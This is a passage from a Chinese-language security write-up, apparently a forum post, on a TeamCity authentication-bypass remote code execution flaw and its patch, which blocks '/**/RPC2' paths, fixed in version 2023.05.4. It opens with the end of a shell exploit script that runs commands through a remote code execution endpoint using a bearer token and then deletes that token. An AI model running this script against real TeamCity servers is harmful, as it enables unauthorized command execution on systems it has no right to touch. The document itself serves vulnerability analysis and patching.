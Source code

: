 ```shell
RESPONSE=$(curl -s -X POST "$RCE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}" | awk -F 'StdOut:|StdErr:' '{print $2}' )

curl -s -X DELETE "$TOKEN_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

echo $RESPONSE
```

五、漏洞修复：
-------

顺便分析一下漏洞补丁：<https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/>

还是一样通过工具反编译补丁包，这段代码在

myPreHandlingDisabled 对象中添加了路径 "/RPC2" 并删除了所有匹配 "/\*\*/RPC2" 的路径。这意味着它禁止访问所有类似 "/example/RPC2"、"/test/RPC2" 这样的路径。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c3b740453c816e5148cff751013c6892fd2e8e76.png)

升级到2023.05.4版本之后也可以修复这个漏洞。

参考文章：

<https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/>  
<https://blog.csdn.net/ptsecurity/article/details/133324429>  
[https://blog.csdn.net/qq\_43554604/article/details/132385749](https://blog.csdn.net/qq_43554604/article/details/132385749)